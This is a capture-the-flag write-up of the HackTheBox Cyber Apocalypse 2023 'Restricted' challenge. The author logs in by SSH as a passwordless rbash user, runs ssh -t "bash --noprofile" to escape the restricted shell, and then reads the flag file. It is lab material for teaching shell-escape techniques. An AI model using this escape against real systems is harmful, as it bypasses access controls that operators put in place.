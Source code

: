 # Restricted

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319141257.png)

## Find the flag

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/Misc/Restricted/misc_restricted.zip):**
```
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted)-[2023.03.19|14:09:38(HKT)]
└> file misc_restricted.zip    
misc_restricted.zip: Zip archive data, at least v1.0 to extract, compression method=store
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted)-[2023.03.19|14:09:40(HKT)]
└> unzip misc_restricted.zip 
Archive:  misc_restricted.zip
   creating: misc_restricted/
  inflating: misc_restricted/Dockerfile  
  inflating: misc_restricted/build_docker.sh  
   creating: misc_restricted/src/
 extracting: misc_restricted/src/bash_profile  
 extracting: misc_restricted/src/flag.txt  
  inflating: misc_restricted/src/sshd_config  
```

**In `Dockerfile` we see there's a system user called `restricted`:**
```shell
RUN adduser --disabled-password restricted
RUN usermod --shell /bin/rbash restricted
```

And it has no password.

However, **it's shell is using `rbash` or Restricted Bash shell.**

**Now, let's SSH into that user:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted/misc_restricted)-[2023.03.19|14:09:54(HKT)]
└> ssh -p 31396 restricted@104.248.169.117      
[...]
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ echo $SHELL
/bin/rbash
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ env
-rbash: env: command not found
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ echo $PATH
/home/restricted/.bin
```

As you can see, it's pretty restricted. However, there're a lot of ways can bypass that shell.

**If you Google "rbash escape", you'll find [this Gist](https://gist.github.com/PSJoshi/04c0e239ac7b486efb3420db4086e290):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230319141613.png)

**That being said, we can use the `-t` flag in `ssh` to spawn a `bash` shell:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Misc/Restricted/misc_restricted)-[2023.03.19|14:11:49(HKT)]
└> ssh -p 31396 restricted@104.248.169.117 -t "bash --noprofile"
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ id
uid=1000(restricted) gid=1000(restricted) groups=1000(restricted)
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ echo $SHELL
/bin/rbash
```

Although the `$SHELL` environment variable said it's `rbash`, we can execute a normal Bash shell commands.

**Let's read the flag!**
```shell
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:~$ cd ../..
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:/$ ls -lah
total 100K
drwxr-xr-x   1 root root 4.0K Mar 19 06:09 .
drwxr-xr-x   1 root root 4.0K Mar 19 06:09 ..
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 bin
drwxr-xr-x   2 root root 4.0K Dec  9 19:15 boot
drwxr-xr-x   5 root root  360 Mar 19 06:09 dev
drwxr-xr-x   1 root root 4.0K Mar 19 06:09 etc
-rwxr-xr-x   1 root root   32 Mar 16 16:15 flag_8dpsy
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 home
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 lib
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 lib64
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 media
-rwxr-xr-x   1 root root  12K Mar 15 21:39 memories.dump
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 mnt
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 opt
dr-xr-xr-x 283 root root    0 Mar 19 06:09 proc
drwx------   2 root root 4.0K Feb 27 00:00 root
drwxr-xr-x   1 root root 4.0K Mar 19 06:12 run
drwxr-xr-x   1 root root 4.0K Mar 16 16:10 sbin
drwxr-xr-x   2 root root 4.0K Feb 27 00:00 srv
dr-xr-xr-x  13 root root    0 Mar 19 06:09 sys
drwxrwxrwt   1 root root 4.0K Mar 16 16:10 tmp
drwxr-xr-x   1 root root 4.0K Feb 27 00:00 usr
drwxr-xr-x   1 root root 4.0K Feb 27 00:00 var
restricted@ng-restricted-dqzzd-597f4d9c45-wkcbz:/$ cat flag_8dpsy 
HTB{r35tr1ct10n5_4r3_p0w3r1355}
```

- **Flag: `HTB{r35tr1ct10n5_4r3_p0w3r1355}`**

## Conclusion

What we've learned:

1. RBash escape